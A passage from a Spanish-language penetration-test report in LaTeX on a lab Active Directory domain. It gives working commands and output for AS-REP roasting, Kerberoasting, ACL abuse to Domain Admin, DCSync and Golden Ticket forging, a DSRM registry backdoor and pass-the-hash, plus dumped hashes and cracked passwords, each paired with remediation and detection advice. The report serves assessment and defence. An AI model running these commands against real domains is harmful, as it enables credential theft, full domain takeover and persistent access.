pero el relay habria sido igualmente viable con ntlmrelayx.

\begin{lstlisting}
crackmapexec smb 192.168.1.5
# SMB  192.168.1.5  WS01  signing:False  SMBv1:False
\end{lstlisting}

\textbf{Remediacion:}
\begin{itemize}[noitemsep]
  \item Habilitar y requerir SMB signing via GPO en todos los hosts del dominio
  \item Configurar \textit{Microsoft network client: Digitally sign communications (always)}
\end{itemize}
\end{tcolorbox}

\vspace{0.4cm}

%% ---- F03 ----
\subsection{F03 --- AS-REP Roasting (DONT\_REQ\_PREAUTH)}

\begin{tcolorbox}[colback=critical!6, colframe=critical, boxrule=1pt, arc=3pt,
  title={\textbf{F03 $\cdot$ AS-REP Roasting} \hfill \textbf{CVSS 8.1 --- Critical}},
  fonttitle=\bfseries\color{white}, coltitle=white, colbacktitle=critical, breakable]

\textbf{Cuenta:} \texttt{m.jones} (DONT\_REQ\_PREAUTH habilitado)\\[4pt]

\textbf{Descripcion:}
Con DONT\_REQ\_PREAUTH activo, cualquier usuario del dominio puede solicitar
un AS-REP para \texttt{m.jones} y recibir material cifrado con su hash NTLM,
crackeable offline sin interaccion de la victima.

\begin{lstlisting}
impacket-GetNPUsers corp.local/j.smith:'Password123!' \
  -dc-ip 10.10.10.10 -request -outputfile 02_asrep_hash.txt

hashcat -m 18200 02_asrep_hash.txt rockyou.txt
# $krb5asrep$23$m.jones@CORP.LOCAL:...:Welcome1
\end{lstlisting}

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Attack/02_asrep_mjones.png}
\captionof*{figure}{\small\textcolor{textmuted}{AS-REP hash de m.jones capturado y crackeado}}
\end{center}

\textbf{Remediacion:}
\begin{itemize}[noitemsep]
  \item Deshabilitar DONT\_REQ\_PREAUTH en todas las cuentas que no lo requieran
  \item Passwords fuertes de minimo 20 caracteres en cuentas con este atributo
  \item Monitorear Event ID 4768 con tipo AS-REQ sin pre-autenticacion
\end{itemize}
\end{tcolorbox}

\vspace{0.4cm}

%% ---- F04 ----
\subsection{F04 --- Kerberoasting (SPN en cuenta de servicio)}

\begin{tcolorbox}[colback=critical!6, colframe=critical, boxrule=1pt, arc=3pt,
  title={\textbf{F04 $\cdot$ Kerberoasting} \hfill \textbf{CVSS 8.1 --- Critical}},
  fonttitle=\bfseries\color{white}, coltitle=white, colbacktitle=critical, breakable]

\textbf{Cuenta:} \texttt{svc\_sql} (SPN: \texttt{MSSQLSvc/WS02:1433})\\[4pt]

\textbf{Descripcion:}
Cualquier usuario autenticado del dominio puede solicitar un TGS cifrado
con el hash NTLM de \texttt{svc\_sql} y crackearlo offline. La cuenta
usaba una password debil que fue crackeada con wordlist.

\begin{lstlisting}
faketime -f "+2h" impacket-GetUserSPNs \
  corp.local/j.smith:'Password123!' \
  -dc-ip 10.10.10.10 -request -outputfile 02_kerberoast_hash.txt

hashcat -m 13100 02_kerberoast_hash.txt wordlist.txt
# $krb5tgs$23$*svc_sql@CORP.LOCAL*:...:Summer2024!
\end{lstlisting}

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Attack/02_kerberoast_spn.png}
\captionof*{figure}{\small\textcolor{textmuted}{TGS de svc\_sql obtenido y crackeado}}
\end{center}

\textbf{Remediacion:}
\begin{itemize}[noitemsep]
  \item Usar Group Managed Service Accounts (gMSA) para cuentas con SPNs
  \item Password minima de 25 caracteres aleatorios si no se puede usar gMSA
  \item Forzar AES256 y deshabilitar RC4 para cuentas con SPN
  \item Monitorear Event ID 4769 con tipo de cifrado RC4 (0x17)
\end{itemize}
\end{tcolorbox}

\vspace{0.4cm}

%% ---- F05 ----
\subsection{F05 --- ACL Abuse: ForceChangePwd + WriteDACL}

\begin{tcolorbox}[colback=critical!6, colframe=critical, boxrule=1pt, arc=3pt,
  title={\textbf{F05 $\cdot$ ACL Abuse (Domain Admin)} \hfill \textbf{CVSS 9.8 --- Critical}},
  fonttitle=\bfseries\color{white}, coltitle=white, colbacktitle=critical, breakable]

\textbf{Cuentas:} \texttt{m.jones}, \texttt{svc\_backup}, grupo \texttt{Domain Admins}\\[4pt]

\textbf{Descripcion:}
Cadena de tres permisos AD mal configurados que permite escalar de usuario
de dominio a Domain Admin sin explotar ninguna vulnerabilidad de software.
Tres comandos bastaron para comprometer el dominio completo.

\begin{lstlisting}
# 1. ForceChangePassword: m.jones -> svc_backup
net rpc password svc_backup 'Hacked123!' \
  -U 'corp.local/m.jones%Welcome1' -S 10.10.10.10

# 2. WriteDACL -> GenericAll: svc_backup -> Domain Admins
faketime -f "+2h" bloodyAD -u svc_backup -p 'Hacked123!' \
  -d corp.local --host 10.10.10.10 add genericAll \
  'CN=Domain Admins,CN=Users,DC=corp,DC=local' svc_backup

# 3. Agregar svc_backup a Domain Admins
faketime -f "+2h" bloodyAD -u svc_backup -p 'Hacked123!' \
  -d corp.local --host 10.10.10.10 \
  add groupMember 'Domain Admins' svc_backup

# Verificacion
faketime -f "+2h" netexec smb 10.10.10.10 \
  -u svc_backup -p 'Hacked123!'
# corp.local\svc_backup:Hacked123! (Pwnd!)
\end{lstlisting}

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Attack/05_forcepwd_svc_backup.png}
\captionof*{figure}{\small\textcolor{textmuted}{ForceChangePassword exitoso sobre svc\_backup}}
\end{center}

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Attack/05_genericall_domain_admins.png}
\captionof*{figure}{\small\textcolor{textmuted}{GenericAll + svc\_backup agregado a Domain Admins}}
\end{center}

\textbf{Remediacion:}
\begin{itemize}[noitemsep]
  \item Auditar todos los ACLs de AD regularmente con BloodHound o Purple Knight
  \item Eliminar ForceChangePassword y WriteDACL de cuentas de servicio sobre grupos privilegiados
  \item Implementar principio de minimo privilegio en todos los objetos de AD
  \item Monitorear cambios en grupos sensibles: Event ID 4728, 4756
\end{itemize}
\end{tcolorbox}

\vspace{0.4cm}

%% ---- F06 ----
\subsection{F06 --- Credenciales en Texto Claro en Share SMB}

\begin{tcolorbox}[colback=critical!6, colframe=critical, boxrule=1pt, arc=3pt,
  title={\textbf{F06 $\cdot$ Credenciales en Texto Claro (FILE01)} \hfill \textbf{CVSS 9.1 --- Critical}},
  fonttitle=\bfseries\color{white}, coltitle=white, colbacktitle=critical, breakable]

\textbf{Host:} FILE01 (10.10.10.20), share \texttt{data}\\[4pt]

\textbf{Descripcion:}
El share \texttt{data} era accesible para cualquier usuario del dominio.
\texttt{config.ini} e \texttt{it-notes.txt} contenian credenciales de dos
cuentas de servicio en texto claro, permitiendo movimiento lateral inmediato.

\begin{lstlisting}
impacket-smbclient corp.local/m.jones:'Welcome1'@10.10.10.20
# use data / get config.ini / get it-notes.txt

# config.ini:
# user=svc_sql   password=Summer2024!

# it-notes.txt:
# svc_backup : Backup2024!
\end{lstlisting}

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Attack/04_loot_file01.png}
\captionof*{figure}{\small\textcolor{textmuted}{Credenciales en texto claro extraidas del share data}}
\end{center}

\textbf{Remediacion:}
\begin{itemize}[noitemsep]
  \item Nunca almacenar credenciales en archivos de texto --- usar LAPS o vaults gestionados
  \item Implementar access-based enumeration y permisos granulares en shares
  \item Auditar contenido de shares con herramientas como Snaffler periodicamente
\end{itemize}
\end{tcolorbox}

\vspace{0.4cm}

%% ---- F07 ----
\subsection{F07 --- DCSync + Golden Ticket}

\begin{tcolorbox}[colback=critical!6, colframe=critical, boxrule=1pt, arc=3pt,
  title={\textbf{F07 $\cdot$ DCSync + Golden Ticket} \hfill \textbf{CVSS 10.0 --- Critical}},
  fonttitle=\bfseries\color{white}, coltitle=white, colbacktitle=critical, breakable]

\textbf{Host:} DC01 (10.10.10.10)\\[4pt]

\textbf{Descripcion:}
Con privilegios de Domain Admin se abuso del protocolo DRSUAPI para replicar
todos los hashes del dominio. El hash de \texttt{krbtgt} permitio forjar un
Golden Ticket valido por 10 anios para cualquier cuenta, independiente de
cambios de password futuros.

\begin{lstlisting}
faketime -f "+2h" impacket-secretsdump \
  corp.local/svc_backup:'Hacked123!'@10.10.10.10
# Administrator : 520126a03f5d5a8d836f1c4f34ede7ce
# krbtgt        : 4d2b88171d53437c365166048fd65a24

faketime -f "+2h" impacket-ticketer \
  -nthash 4d2b88171d53437c365166048fd65a24 \
  -domain-sid S-1-5-21-2122588550-1084548123-1152598279 \
  -domain corp.local Administrator
# Administrator.ccache generado
\end{lstlisting}

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Attack/06_dcsync_all_hashes.png}
\captionof*{figure}{\small\textcolor{textmuted}{DCSync exitoso --- todos los hashes del dominio extraidos}}
\end{center}

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Attack/06_generate_golden_ticket.png}
\captionof*{figure}{\small\textcolor{textmuted}{Golden Ticket generado con hash de krbtgt}}
\end{center}

\textbf{Remediacion:}
\begin{itemize}[noitemsep]
  \item Reducir cuentas con privilegios de replicacion DCSync al minimo necesario
  \item Rotar el hash de \texttt{krbtgt} dos veces para invalidar Golden Tickets existentes
  \item Implementar Microsoft Defender for Identity para detectar DCSync (Event ID 4662)
  \item Habilitar Protected Users security group para cuentas privilegiadas
\end{itemize}
\end{tcolorbox}

\vspace{0.4cm}

%% ---- F08 ----
\subsection{F08 --- Persistencia via DSRM Backdoor}

\begin{tcolorbox}[colback=critical!6, colframe=critical, boxrule=1pt, arc=3pt,
  title={\textbf{F08 $\cdot$ DSRM Backdoor en DC01} \hfill \textbf{CVSS 9.8 --- Critical}},
  fonttitle=\bfseries\color{white}, coltitle=white, colbacktitle=critical, breakable]

\textbf{Host:} DC01 (10.10.10.10)\\[4pt]

\textbf{Descripcion:}
DSRM es la cuenta de recuperacion local de todo Domain Controller.
Modificando \texttt{DsrmAdminLogonBehavior=2} en el registro se habilita
para autenticacion remota normal via SMB. No crea usuarios nuevos ni genera
alertas de cuenta nueva. El hash local provee acceso permanente al DC
independiente del dominio.

\begin{lstlisting}
# Habilitar DSRM para login remoto
faketime -f "+2h" impacket-atexec \
  corp.local/Administrator@10.10.10.10 \
  -hashes aad3b435b51404eeaad3b435b51404ee:520126a03f5d5a8d836f1c4f34ede7ce \
  'reg add HKLM\System\CurrentControlSet\Control\Lsa \
   /v DsrmAdminLogonBehavior /t REG_DWORD /d 2 /f'
# The operation completed successfully.

# Verificar backdoor activo
faketime -f "+2h" netexec smb 10.10.10.10 \
  -u Administrator \
  -H 520126a03f5d5a8d836f1c4f34ede7ce --local-auth
# WIN-FIAQQKE3IKT\Administrator:... (Pwnd!)
\end{lstlisting}

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Attack/07_dsrm_backdoor.png}
\captionof*{figure}{\small\textcolor{textmuted}{DSRM backdoor activo --- acceso permanente al DC01}}
\end{center}

\textbf{Impacto:} Acceso al DC sobrevive cambios de password del Administrator
de dominio, reinicios y rotacion de credenciales temporales.

\textbf{Remediacion:}
\begin{itemize}[noitemsep]
  \item Eliminar \texttt{DsrmAdminLogonBehavior} del registro inmediatamente
  \item Rotar el hash DSRM: \texttt{ntdsutil "set dsrm password" "reset password on server DC01" quit quit}
  \item Monitorear cambios en \texttt{HKLM\textbackslash System\textbackslash CurrentControlSet\textbackslash Control\textbackslash Lsa} (Event ID 4657)
  \item Auditar el registro en todos los DCs periodicamente con scripts automatizados
\end{itemize}
\end{tcolorbox}

\vspace{0.4cm}

%% ---- F09 ----
\subsection{F09 --- Pass-the-Hash}

\begin{tcolorbox}[colback=high!6, colframe=high, boxrule=1pt, arc=3pt,
  title={\textbf{F09 $\cdot$ Pass-the-Hash (WS02 + FILE01)} \hfill \textbf{CVSS 8.8 --- High}},
  fonttitle=\bfseries\color{white}, coltitle=white, colbacktitle=high, breakable]

\textbf{Hosts:} WS02 (10.10.10.40), FILE01 (10.10.10.20)\\[4pt]

\textbf{Descripcion:}
Con los hashes obtenidos via DCSync se realizo Pass-the-Hash a WS02 y FILE01
sin necesidad de conocer las passwords en texto claro. SYSTEM obtenido en
ambos hosts.

\begin{lstlisting}
# PTH a WS02 (svc_sql, admin local)
impacket-psexec WS02/svc_sql@10.10.10.40 \
  -hashes :72f0eefcc213ea8f350773b831cf2c9c
# nt authority\system

# PTH a FILE01 (Administrator dominio)
faketime -f "+2h" impacket-psexec \
  corp.local/Administrator@10.10.10.20 \
  -hashes :520126a03f5d5a8d836f1c4f34ede7ce
# nt authority\system
\end{lstlisting}

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Attack/06_PTH_FILE01.png}
\captionof*{figure}{\small\textcolor{textmuted}{Pass-the-Hash --- SYSTEM en FILE01}}
\end{center}

\textbf{Remediacion:}
\begin{itemize}[noitemsep]
  \item Implementar LAPS para passwords unicas en todas las cuentas de administrador local
  \item Habilitar Windows Defender Credential Guard para proteger hashes en memoria
  \item Deshabilitar NTLM donde sea posible y forzar Kerberos
\end{itemize}
\end{tcolorbox}

\newpage

%% ============================================================
\section{Tabla de Hallazgos}
%% ============================================================

\begin{center}
\begin{tabularx}{\textwidth}{clXcc}
\toprule
\textbf{ID} & \textbf{Hallazgo} & \textbf{Host/Servicio} & \textbf{CVSS} & \textbf{Severidad} \\
\midrule
F01 & LLMNR/NBT-NS Poisoning        & Red / WS01       & 8.8  & \cellcolor{critical!80}\textcolor{white}{\textbf{Critical}} \\
F02 & SMB Signing deshabilitado      & WS01             & 7.5  & \cellcolor{high!70}\textcolor{white}{\textbf{High}} \\
F03 & AS-REP Roasting (m.jones)      & Kerberos / DC01  & 8.1  & \cellcolor{critical!80}\textcolor{white}{\textbf{Critical}} \\
F04 & Kerberoasting (svc\_sql)       & Kerberos / DC01  & 8.1  & \cellcolor{critical!80}\textcolor{white}{\textbf{Critical}} \\
F05 & ACL Abuse $\to$ Domain Admin   & Active Directory & 9.8  & \cellcolor{critical!80}\textcolor{white}{\textbf{Critical}} \\
F06 & Credenciales en texto claro    & FILE01           & 9.1  & \cellcolor{critical!80}\textcolor{white}{\textbf{Critical}} \\
F07 & DCSync + Golden Ticket         & DC01             & 10.0 & \cellcolor{critical!80}\textcolor{white}{\textbf{Critical}} \\
F08 & DSRM Backdoor                  & DC01             & 9.8  & \cellcolor{critical!80}\textcolor{white}{\textbf{Critical}} \\
F09 & Pass-the-Hash                  & WS02 / FILE01    & 8.8  & \cellcolor{high!70}\textcolor{white}{\textbf{High}} \\
\bottomrule
\end{tabularx}
\end{center}

\vspace{0.5cm}

%% ============================================================
\section{Remediacion Priorizada}
%% ============================================================

\begin{center}
\begin{tabularx}{\textwidth}{clXl}
\toprule
\textbf{Pri.} & \textbf{ID} & \textbf{Accion inmediata} & \textbf{Plazo} \\
\midrule
1 & F08      & Eliminar DsrmAdminLogonBehavior y rotar hash DSRM      & Inmediato \\
2 & F07      & Rotar hash de krbtgt dos veces + auditar cuentas DA    & Inmediato \\
3 & F06      & Eliminar archivos con credenciales + restringir shares  & 24h \\
4 & F01      & Deshabilitar LLMNR y NBT-NS via GPO                    & 24h \\
5 & F05      & Auditar y corregir ACLs en AD con BloodHound           & 48h \\
6 & F03,F04  & DONT\_REQ\_PREAUTH off + migrar service accounts a gMSA & 1 semana \\
7 & F09      & Implementar LAPS + Credential Guard                    & 1 semana \\
8 & F02      & Habilitar SMB signing obligatorio via GPO              & 1 semana \\
\bottomrule
\end{tabularx}
\end{center}

\newpage

%% ============================================================
\section{MITRE ATT\&CK Mapping}
%% ============================================================

\begin{center}
\begin{tabularx}{\textwidth}{llXl}
\toprule
\textbf{Tactica} & \textbf{Tecnica} & \textbf{Descripcion} & \textbf{Fase} \\
\midrule
Reconnaissance         & T1595.001 & Escaneo nmap de red y puertos              & 00 \\
Credential Access      & T1557.001 & LLMNR Poisoning (Responder)               & 00 \\
Initial Access         & T1078.002 & Credenciales de dominio capturadas        & 00 \\
Execution              & T1569.002 & psexec shell SYSTEM via SMB               & 01 \\
Discovery              & T1087.002 & Enumeracion de usuarios AD via LDAP       & 01 \\
Lateral Movement       & T1021.002 & SMB con credenciales comprometidas        & 01 \\
Credential Access      & T1558.004 & AS-REP Roasting (m.jones)                 & 02 \\
Credential Access      & T1558.003 & Kerberoasting (svc\_sql)                  & 02 \\
Command and Control    & T1572     & Ligolo-ng tunnel encapsulation            & 03 \\
Collection             & T1039     & Datos extraidos de share FILE01           & 04 \\
Credential Access      & T1552.001 & Credenciales en texto claro en archivos   & 04 \\
Privilege Escalation   & T1484.001 & ACL abuse: WriteDACL + GenericAll         & 05 \\
Credential Access      & T1003.006 & DCSync via DRSUAPI                        & 06 \\
Credential Access      & T1558.001 & Golden Ticket con hash de krbtgt          & 06 \\
Lateral Movement       & T1550.002 & Pass-the-Hash a WS02 y FILE01             & 06 \\
Persistence            & T1098.001 & DSRM Backdoor en DC01                     & 07 \\
Defense Evasion        & T1112     & Modificacion de registro (DsrmAdminLogon) & 07 \\
\bottomrule
\end{tabularx}
\end{center}

\newpage

%% ============================================================
\section{Apendice A --- Herramientas Desarrolladas}
%% ============================================================

Como parte del engagement se desarrollaron herramientas Python para
automatizar tecnicas manuales repetitivas. Ambas estan disponibles en el
repositorio bajo el directorio \texttt{tools/}.

\subsection*{ad\_recon.py}

Herramienta de reconocimiento automatico del dominio Active Directory.
Ejecuta en secuencia: validacion de credenciales via CME, enumeracion de
usuarios con GetADUsers, deteccion de cuentas AS-REP Roastables,
deteccion de SPNs Kerberoastables, enumeracion de shares en el DC y
descubrimiento de hosts en la red interna. Genera un reporte en texto
con timestamp con la flag \texttt{-o}.

\begin{lstlisting}
python3 ad_recon.py -d corp.local -u j.smith \
  -p 'Password123!' -dc 10.10.10.10 -o
# [*] Dominio  : corp.local
# [*] Usuario  : j.smith
# [*] DC       : 10.10.10.10
# [!] j.smith es ADMIN en 10.10.10.10
# AS-REP Roastable: m.jones -> $krb5asrep$23$...
# Kerberoastable:   svc_sql -> MSSQLSvc/WS02:1433
# [+] Reporte guardado: 20260605_232002_ad_recon_corp.local.txt
\end{lstlisting}

\begin{center}

\includegraphics[width=0.78\textwidth]{../screenshots/Attack/ad_recon.png}
\captionof*{figure}{\small\textcolor{textmuted}{ad\_recon.py ejecutado contra corp.local --- output completo}}
\end{center}

\newpage

%% ============================================================
\section{Apendice B --- Credenciales Obtenidas}
%% ============================================================

\begin{center}
\begin{tabularx}{\textwidth}{lXll}
\toprule
\textbf{Usuario} & \textbf{Credencial} & \textbf{Metodo} & \textbf{Fase} \\
\midrule
j.smith       & Password123!                              & LLMNR + hashcat      & 00 \\
m.jones       & Welcome1                                  & AS-REP Roasting      & 02 \\
svc\_sql      & Summer2024!                               & Kerberoasting        & 02 \\
svc\_backup   & Backup2024! $\to$ Hacked123!              & Texto claro + Force  & 04/05 \\
Administrator & Hash: 520126a03f5d5a8d836f1c4f34ede7ce    & DCSync               & 06 \\
krbtgt        & Hash: 4d2b88171d53437c365166048fd65a24    & DCSync               & 06 \\
\bottomrule
\end{tabularx}
\end{center}

\vspace{0.6cm}

%% ============================================================
\section{Apendice C --- Cobertura de Hosts}
%% ============================================================

\begin{center}
\begin{tabularx}{\textwidth}{lllX}
\toprule
\textbf{Host} & \textbf{Acceso} & \textbf{Privilegio} & \textbf{Metodo} \\
\midrule
WS01   & \textcolor{low}{\textbf{Comprometido}}    & SYSTEM       & psexec via j.smith (Fase 01) \\
FILE01 & \textcolor{low}{\textbf{Comprometido}}    & SYSTEM       & PTH Administrator (Fase 06) \\
